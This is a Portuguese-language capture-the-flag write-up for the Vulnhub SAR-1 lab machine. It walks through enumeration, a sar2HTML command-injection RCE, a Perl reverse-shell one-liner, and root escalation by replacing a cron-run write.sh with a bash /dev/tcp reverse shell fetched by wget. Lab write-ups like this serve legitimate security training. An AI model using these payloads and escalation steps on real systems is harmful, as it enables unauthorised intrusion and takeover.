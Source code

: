 ```yaml
---
title: Vulnhub - SAR-1
categories: [Vulnhub]
tags: []
---
```


![](/assets/img/Vulnhub/SAR-1/capa.png)

Link da Maquina: <https://www.vulnhub.com/entry/sar-1,425/>

# Scan/Enumeracao


## Host Discovery


* Com o comando arp-scan vamos descobrir quais sao os hosts que estao up na rede

```bash
sudo arp-scan -I eth1 192.168.150.0/24
```

![](/assets/img/Vulnhub/SAR-1/host-discovery.png)


## Port Discovery


* Vamos descobrir as portas quqe estao abertas no alvo

```bash
sudo nmap -n -T5 -p- 192.168.150.114 
```

![](/assets/img/Vulnhub/SAR-1/port-discovery.png)




## Port Scan


* Vamos escanear a porta que esta aberta para descobrir qual o servico que esta rodando e qual a versao

```bash
sudo nmap -n -T5 -A -p 80 192.168.150.114
```

![](/assets/img/Vulnhub/SAR-1/port-scan.png)

> POrta 80: Apache httpd 2.4.29




# Exploracao


## Web


### Acessando a pagina pelo browser

* Na pagina principal da aplicacao temo a "Default Page" do Apache2

![](/assets/img/Vulnhub/SAR-1/apache1.png)




### Fuzzy de diretorios

* Rodando o gobuster para procurar por mais arquivos e diretorios

```bash
gobuster dir -u http://192.168.150.114 -w /usr/share/wordlists/dirb/big.txt -x php,txt
```

![](/assets/img/Vulnhub/SAR-1/gobuster1.png)




* Achamos dois arquivos, **phpinfo.php** e **robots.txt**. No phpinfo temos as informacoes de configuracao do Apache

![](/assets/img/Vulnhub/SAR-1/phpinfo.png)


* No outro arquivo robots temos uma palavra **sar2HTML**

![](/assets/img/Vulnhub/SAR-1/robots.png)




### sar2HTML


* Conseguimos acessar uma outra pagina web com a dica que recebemos no robots: http://192.168.150.114/sar2HTML/

![](/assets/img/Vulnhub/SAR-1/sar2HTML.png)


* Jogando no google o nome da aplicacao ja apareceram inumeros sites com a vulnerabilidade dessa aplicacao




* Entrando no site www.exploit-db.com e procurando por exploits para o **sarHTML versao 3.2.1** temos um para RCE. Inicialmente analisando o exploit, ele e feito em python e a principio consegue executar comando atraves da URL **"{url}/index.php?plot=;{cmd}"**

![](/assets/img/Vulnhub/SAR-1/exploit-db-sarHTML.png)




* Vamos baixa-lo, dar permissao de execucao para o script e executa-lo

![](/assets/img/Vulnhub/SAR-1/rce-sarHTML.png)

> 1 - Executamos o script com python3

> 2 - Inserimos a URL da aplicacao

> 3 - Inserimos o comando para ser executado no alvo


## RCE / Shell Reverso


* Agora vamos seguir os seguintes passos:

![](/assets/img/Vulnhub/SAR-1/shell-reverso.png)

> 1 - Deixar uma porta escutando na kali

> 2 - procurar com o [rbscheat](https://github.com/marciosouza20/rbscheat) um comando par nos enviar um shell em **perl**. Mas porque em perl? Testamos varios comandos ate termos sucesso com o comando em perl para hosts Linux que nao possuem /bin/sh. 

> 3 - `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.150.110:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

> 4 - Enviamos para o nosso alvo por meio do exploit

> 5 - E por fim recebemos o **SHELL REVERSO**!


## Melhorando o Shell


* Vamos melhorar o nosso shell reverso

```bash
script /dev/null
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![](/assets/img/Vulnhub/SAR-1/melhorando-shell.png)




# Escalando Privilegio


* Primeiramente procuramos por diretorios e arquivos com pesmissao de escrita. Procuramos tambem por binarios com SUID e listamos o que podemos executar como sudo

```bash
find / -type d -writable 2> /dev/null | fgrep -v proc
find / -type f -writable 2> /dev/null | fgrep -v proc
find / -perm -4000 2> /dev/null | fgrep -v proc
sudo -l
```


* Nao conseguimos achar nada de interessando inicialmente. Entao vamos tranferir o linpeas para o alvo

![](/assets/img/Vulnhub/SAR-1/transferindo-linpeas.png)




* Executamos o linpeas

![](/assets/img/Vulnhub/SAR-1/executamos-linpeas.png)


* Duas coisas chamaram antencao no resultado do linpeas. 

![](/assets/img/Vulnhub/SAR-1/crontab-1.png)

![](/assets/img/Vulnhub/SAR-1/crontab-2.png)

> A primeira coisa que nos chama atencao e uma tarefa agendada no crontab



![](/assets/img/Vulnhub/SAR-1/linpeas-out-1.png)

![](/assets/img/Vulnhub/SAR-1/linpeas-out-2.png)

> A segunda e que podemos escrever em um arquivo que esta no diretorio /var/spool/cron/crontabs 


* Verificando o **/etc/crontab** podemos observar que a tarefa se trata em executar um arquivo, **/var/www/html/finally.sh**

![](/assets/img/Vulnhub/SAR-1/etc-crontab.png)


* Ao verificar esse arquivo observamso que ele executa outro script **write.sh**, que esta no mesmo diretorio. Para a nossa alegria temos permissao de escrita no arquivo write.sh. 

![](/assets/img/Vulnhub/SAR-1/etc-crontab.png)




* Agora vamos criar um arquivo na nossa maquina kali com o nome "write.sh". 

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.150.110/443 0<&1
```

![](/assets/img/Vulnhub/SAR-1/write-kali.png)


* Depois de ter feito o arquivo vamos levantar um servidor web com o python na nossa maquina, baixar ele no alvo e dar permissao total pra ele

```bash
wget 192.168.150.110/write.sh
chmod 777 write.sh
```

![](/assets/img/Vulnhub/SAR-1/write-alvo.png)


* Agora e so deixar a porta escutando na nossa maquina e qnd o spript for executado a proxima vez viraremos **ROOT**!




# ROOT


* **Pronto, agora somos ROOT!**

![](/assets/img/Vulnhub/SAR-1/root.png)


# Flag


* Conseguimos pegar a flag do **user.txt** e a **root.txt**

![](/assets/img/Vulnhub/SAR-1/flag-user.png)

![](/assets/img/Vulnhub/SAR-1/flag-root.png)
